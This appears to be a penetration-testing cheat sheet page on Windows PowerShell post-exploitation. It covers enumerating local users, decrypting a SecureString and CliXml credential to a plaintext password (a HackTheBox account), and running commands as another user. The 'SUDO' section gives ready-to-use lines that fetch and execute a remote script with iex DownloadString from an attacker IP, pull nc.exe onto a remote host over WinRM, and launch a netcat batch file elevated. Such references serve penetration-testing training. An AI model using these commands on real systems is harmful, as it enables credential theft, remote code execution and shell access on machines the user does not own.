## Domain Recon

{% page-ref page="powerview.md" %}

## Users

```bash
Get-LocalUser | ft Name,Enabled,Description,LastLogon
Get-ChildItem C:\Users -Force | select Name
```

## Secure String to Plaintext

```bash
$pass = "01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692" | convertto-securestring
$user = "HTB\Tom"
$cred = New-Object System.management.Automation.PSCredential($user, $pass)
$cred.GetNetworkCredential() | fl

UserName       : Tom
Password       : 1ts-mag1c!!!
SecurePassword : System.Security.SecureString
Domain         : HTB
```

Or directly parsing form XML:

```bash
$cred = Import-CliXml -Path cred.xml; $cred.GetNetworkCredential() | Format-List *

UserName       : Tom
Password       : 1ts-mag1c!!!
SecurePassword : System.Security.SecureString
Domain         : HTB
```

## SUDO

```bash
#CREATE A CREDENTIAL OBJECT
$pass = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("<USERNAME>", $pass)

#For local:
Start-Process -Credential ($cred)  -NoNewWindow powershell "iex (New-Object Net.WebClient).DownloadString('http://10.10.14.11:443/ipst.ps1')"

#For WINRM
#CHECK IF CREDENTIALS ARE WORKING EXECUTING whoami (expected: username of the credentials user)
Invoke-Command -Computer ARKHAM -ScriptBlock { whoami } -Credential $cred
#DOWNLOAD nc.exe
Invoke-Command -Computer ARKHAM -ScriptBlock { IWR -uri 10.10.14.17/nc.exe -outfile nc.exe } -credential $cred

Start-Process powershell -Credential $pp -ArgumentList '-noprofile -command &{Start-Process C:\xyz\nc.bat -verb Runas}'

#Another method
$secpasswd = ConvertTo-SecureString "<password>" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("<user>", $secpasswd)
$computer = "<hostname>"
```